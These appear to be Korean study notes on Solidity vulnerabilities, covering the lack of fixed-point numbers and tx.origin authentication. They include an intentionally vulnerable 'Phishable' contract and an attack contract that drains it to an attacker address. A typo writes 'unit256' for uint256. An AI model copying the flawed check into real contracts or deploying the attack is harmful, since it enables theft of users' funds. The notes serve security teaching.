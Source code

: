 솔리디티에서 소수점을 숫자로 지원하지 않음 

## 17-1. 💀취약점

솔리디티에는 고정소수점 유형이 없기 때문에 개발자는 표준 정수 데이터 타입을 사용하여 자체적으로 구현해야 한다.

## 17-2. 🔒예방기법

- 나누기 등을 사용할 때 분수에서 큰 분자를 사용할 수 있는지 확인해야한다.
- 숫자에 대해 임의의 정밀도를 정의할 때는 값을 더 높은 정밀도로 변환하고
- 모든 수학 연산을 수행한 다음, 최종적으로 출력에 필요한 정밀도로 다시 변환하는 것이 좋다.
- 일반적으로 `unit256` 사용


# 18. Tx.Origin 인증

- 글로벌 변수 tx.origin : 전체 호출 스택을 가로지르고 원래 호출을 보낸 계정의 주소를 포함한다.
- 스마트 컨트랙트에서 이 변수를 인증에 사용하면 컨트랙트가 피싱(phishing)같은 공격에 취약해진다.

## 18-1. 💀취약점

- tx.origin 변수를 사용하여 사용자에게 권한을 부여하는 컨트랙트는 일반적으로 사용자로 하여금 취약한 컨트랙트에서 인증된 작업을 수행하도록 속일 수 있는 피싱 공격에 취약하다.ㅋ
- tx.origin  정보가 실제 공격자와 같지 않아도 owner 정보를 활용해 공격 할 수 있음

```jsx
Example 13. Phishable.sol
contract Phishable {
    address public owner;

    constructor (address _owner) {
        owner = _owner;
    }

    function () external payable {} // collect ether

    function withdrawAll(address _recipient) public {
        require(tx.origin == owner);
        _recipient.transfer(this.balance);
    }
}

------------------------------------------------------------------------------------

import "Phishable.sol";

contract AttackContract {

    Phishable phishableContract;
    address attacker; // The attacker's address to receive funds

    constructor (Phishable _phishableContract, address _attackerAddress) {
        phishableContract = _phishableContract;
        attacker = _attackerAddress;
    }

    function () payable {
        phishableContract.withdrawAll(attacker);
    }
}
```
